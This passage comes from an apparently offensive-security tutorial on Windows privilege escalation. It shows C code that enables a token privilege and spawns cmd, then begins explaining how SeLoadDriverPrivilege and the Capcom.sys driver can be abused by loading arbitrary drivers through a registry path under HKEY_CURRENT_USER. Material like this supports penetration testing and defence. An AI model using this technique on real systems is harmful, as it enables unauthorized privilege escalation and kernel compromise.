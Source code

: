 ```c
        &luid))        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %un", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;

    if (bEnablePrivilege) {
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    }

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %x", GetLastError());
        return FALSE;
    }

    system("cmd");
    return 0;
}
```
{% endcode %}

We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](../../.gitbook/assets/a10.png)

### Capcom.sys Driver Exploit <a href="capcom-sys-driver-exploit" id="capcom-sys-driver-exploit"></a>

To further prove the `SeLoadDriverPrivilege` is dangerous, let's **exploit it to elevate privileges**.

You can load a new driver using **NTLoadDriver:**

```cpp
NTSTATUS NTLoadDriver(
  _In_ PUNICODE_STRING DriverServiceName
);
```

By default the driver service name should be under `\Registry\Machine\System\CurrentControlSet\Services\`

But, according with to the **documentation **you **could **also **use **paths under **HKEY_CURRENT_USER**, so you could **modify** a **registry **there to **load arbitrary drivers** on the system.\
The relevant parameters that must be defined in the new registry are:
